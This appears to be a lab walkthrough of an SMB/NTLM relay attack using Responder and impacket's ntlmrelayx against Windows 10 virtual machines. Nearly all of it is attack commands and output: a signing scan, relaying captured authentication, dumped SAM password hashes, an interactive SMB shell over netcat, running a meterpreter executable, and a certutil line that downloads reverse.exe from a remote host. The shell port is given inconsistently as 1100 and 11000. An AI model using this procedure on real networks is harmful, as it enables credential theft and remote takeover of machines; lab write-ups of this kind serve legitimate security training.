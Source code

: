 **Type of attack which relies on NTLM Version 2 authentication that is normally used in most companies**.
First, we must edit the responder config file and disable SMB and HTTP.

```bash - Kali
sudo mousepad /usr/share/responder/Responder.conf
```

Turn off SMB and HTTP:

Next, we will utilize nmap to look for message signing settings.
```bash
nmap --script=smb2-security-mode.nse -p445 192.168.111.129,130,132 -Pn
```


```bash
mousepad targets.txt
```

Put in 1 of the 2 Windows 10 IPs where message signing is enabled, but not required.
```bash
sudo responder -I eth0 -dwv
```

```python
python3 /home/kali/impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support
```

In Windows1 VM, enter `\\$Kali_IP` in file explorer address bar, and hit enter.

Back in Kali:

We got hashes.
`Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::`
`Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::`
`DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::`
`WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:1c3880cdb104506112fafa98c4c3a1df:::`
`Gamora:1001:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::`

Lets try to get an interactive shell:

```python
python3 /home/kali/impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support -i
```

We see in the above image, an interactive SMB shell has opened on 127.0.0.1:1100.
```bash
sudo rlwrap -cAr nc 127.0.0.1 11000
```


```bash
help
```

```bash
shares
```

```bash
use C$
```

```bash
ls
```

We could also compile a meterpreter shell, load and execute it:
```python
python3 /home/kali/impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support -e meterpreter.exe
```

We could also run normal commands:
```python
python3 /home/kali/impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support -c "certutil -urlcache -split -f http://10.10.0.27/reverse.exe"
```

```python
python3 /home/kali/impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```
